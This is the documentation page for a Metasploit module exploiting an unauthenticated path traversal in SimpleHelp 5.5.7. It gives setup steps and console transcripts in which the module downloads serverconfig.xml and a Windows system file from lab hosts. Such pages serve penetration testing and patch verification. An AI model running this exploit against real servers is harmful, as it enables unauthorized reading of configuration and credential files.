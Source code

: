 ## Vulnerable Application
There exists a path traversal vulnerability in the /toolbox-resource endpoint of SimpleHelp that enables unauthenticated
remote attackers to download arbitrary files from the SimpleHelp server via crafted HTTP requests

### Setup

On Ubuntu 22.04 download a vulnerable version of SimpleHelp, for this demo we will use 5.5.7:
`wget https://simple-help.com/releases/5.5.7/SimpleHelp-linux-amd64.tar.gz`

Unzip the application:
```
cd /opt
tar -xvf SimpleHelp-linux-amd64.tar.gz
```

Start the server:
```
cd SimpleHelp
sudo sh serverstart.sh
```

Navigate to the Web App GUI at: `http://127.0.0.1` (by default the application should be listening on all interfaces).
You should see "Welcome to your new SimpleHelp Server".
Select "Start New Server". The application should now be vulnerable to the path traversal.

## Verification Steps

1. Start msfconsole
1. Do: `use simplehelp_toolbox_path_traversal`
1. Set the `RHOST`
1. Run the module
1. Receive the file `serverconfig.xml` from the SimpleHelp

## Scenarios
### SimpleHelp 5.5.7 running on Ubuntu 22.04
```
msf exploit(windows/local/cve_2024_35250_ks_driver) > use simplehelp_toolbox_path_traversal

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank    Check  Description
   -  ----                                                      ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/simplehelp_toolbox_path_traversal  2025-01-12       normal  No     Simple Help Path Traversal Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/simplehelp_toolbox_path_traversal

[*] Using auxiliary/scanner/http/simplehelp_toolbox_path_traversal
msf auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > set rhost 172.16.199.130
rhost => 172.16.199.130
msf auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > run
[*] Reloading module...
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 5.5.7
[+] Downloaded 5233 bytes
[+] File saved in: /Users/jheysel/.msf4/loot/20250220163655_default_172.16.199.130_simplehelp.trave_035651.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### SimpleHelp 5.5.7 running on Windows 11
```
msf auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > set rhosts 172.16.199.131
rhosts => 172.16.199.131
msf auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > set filepath windows/system.ini
filepath => windows/system.ini
msf auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > set depth 4
depth => 4
msf auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > run
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 5.5.7
[+] Downloaded 219 bytes
[+] File saved in: /Users/jheysel/.msf4/loot/20250221075039_default_172.16.199.131_simplehelp.trave_820456.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > cat /Users/jheysel/.msf4/loot/20250221075039_default_172.16.199.131_simplehelp.trave_820456.txt
[*] exec: cat /Users/jheysel/.msf4/loot/20250221075039_default_172.16.199.131_simplehelp.trave_820456.txt

; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]
```
